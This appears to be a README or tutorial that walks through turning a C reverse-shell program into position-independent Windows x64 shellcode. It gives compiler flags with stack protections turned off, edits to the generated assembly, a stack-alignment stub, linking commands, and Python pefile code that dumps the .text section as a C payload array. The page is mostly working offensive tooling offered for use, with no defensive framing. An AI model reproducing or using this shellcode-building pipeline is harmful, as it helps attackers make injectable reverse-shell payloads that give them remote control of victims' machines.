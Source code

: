 1. Compile to ASM: `cl.exe /c /FA /GS- rev_shell.c` 
2. Remove XDATA/PDATA segments in `rev_shell.asm`
3. Remove external libaries (`INCLUDELIB LITCMT`/`INCLUDELIB OLDNAMES` at the top) in `rev_shell.asm`
4. Fix stack algiment by adding the following in the `_TEXT SEGMENT`: 

{% raw %}
; https://github.com/mattifestation/PIC_Bindshell/blob/master/PIC_Bindshell/AdjustStack.asm

; AlignRSP is a simple call stub that ensures that the stack is 16-byte aligned prior
; to calling the entry point of the payload. This is necessary because 64-bit functions
; in Windows assume that they were called with 16-byte stack alignment. When amd64
; shellcode is executed, you can't be assured that you stack is 16-byte aligned. For example,
; if your shellcode lands with 8-byte stack alignment, any call to a Win32 function will likely
; crash upon calling any ASM instruction that utilizes XMM registers (which require 16-byte)
; alignment.

AlignRSP PROC
    push rsi ; Preserve RSI since we're stomping on it
    mov rsi, rsp ; Save the value of RSP so it can be restored
    and rsp, 0FFFFFFFFFFFFFFF0h ; Align RSP to 16 bytes
    sub rsp, 020h ; Allocate homing space for ExecutePayload
    call main ; Call the entry point of the payload
    mov rsp, rsi ; Restore the original value of RSP
    pop rsi ; Restore RSI
    ret ; Return to caller
AlignRSP ENDP
{% endraw %}

1. Change the line `mov rax, QWORD PTR gs:96` to `mov rax, QWORD PTR gs:[96]` 

Once those steps are done, link to an exe using:  `ml64.exe rev_shell.asm /link /entry:AlignRSP` . This will compile it to an exe in which you can execute and test.

Last to extract the shellcode, you can use a tool like CFF Explorer or use the PE module within python3 to extract the shellcode from the `.text` section which will be the resulting shellcode. The following is python3 code to extract it.

{% raw %}
    pe = pefile.PE( "fixed_main.exe" )
    text_section = next((s for s in pe.sections if s.Name.decode().strip('\x00') == '.text'), None)
    
    if not text_section:
        print("No .text section found in the executable.")
        return

    text_bytes = text_section.get_data()

    print( "[+] Successfully extracted .text section from the executable" )
    
    with open( "shellcode.text", "w" ) as file:
        c_array = ', '.join( f'0x{byte:02x}' for byte in text_bytes )
        formatted_c_array = f'unsigned char payload[] = {{ {c_array} }};'
        file.write( formatted_c_array + "\n" )
{% endraw %}
